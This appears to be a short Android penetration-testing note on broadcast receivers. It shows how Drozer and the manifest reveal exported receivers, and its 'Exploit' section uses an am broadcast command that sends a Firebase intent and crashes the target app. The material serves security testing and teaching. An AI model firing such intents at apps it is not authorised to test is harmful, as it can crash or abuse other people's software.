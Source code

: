 # Broadcast receivers
## Theory
Broadcast receivers are registered for specific events to occur. When the event occurs, the receiver gets invoked and performs tasks, such as showing a message to the user. What we can do with broadcast receivers is up to the creativity of the developer, as a lot of stuff can be carried out with them.

Different broadcasts :
* System Events
* Custom Broadcasts

## Practical
### Detect
* Drozer allows to detect broadcast receivers but doesn't show `action's name`:
```bash
dz> run app.broadcast.info -a com.application
Package: com.application
  io.invertase.firebase.messaging.ReactNativeFirebaseMessagingReceiver
    Permission: com.google.android.c2dm.permission.SEND
  com.google.firebase.iid.FirebaseInstanceIdReceiver
    Permission: com.google.android.c2dm.permission.SEND
  org.matomo.sdk.extra.InstallReferrerReceiver
    Permission: null
```
* AndroidManifest.xml shows everything:
```bash
<receiver android:exported="true" android:name="io.invertase.firebase.messaging.ReactNativeFirebaseMessagingReceiver" android:permission="com.google.android.c2dm.permission.SEND">
            <intent-filter>
                <action android:name="com.google.android.c2dm.intent.RECEIVE"/>
            </intent-filter>
        </receiver>
``` 
### Exploit
Run the BR on Activity Manager (AM) :
```bash
//Use your app, launch the following command : (Application is crashed in my case)

am broadcast -a com.google.android.c2dm.intent.RECEIVE                                                                                                                                                  
//Broadcasting: Intent { act=com.google.android.c2dm.intent.RECEIVE flg=0x400000 }
//Broadcast completed: result=500
```

## References
{% embed url="https://resources.infosecinstitute.com/topic/android-hacking-security-part-3-exploiting-broadcast-receivers/" %}
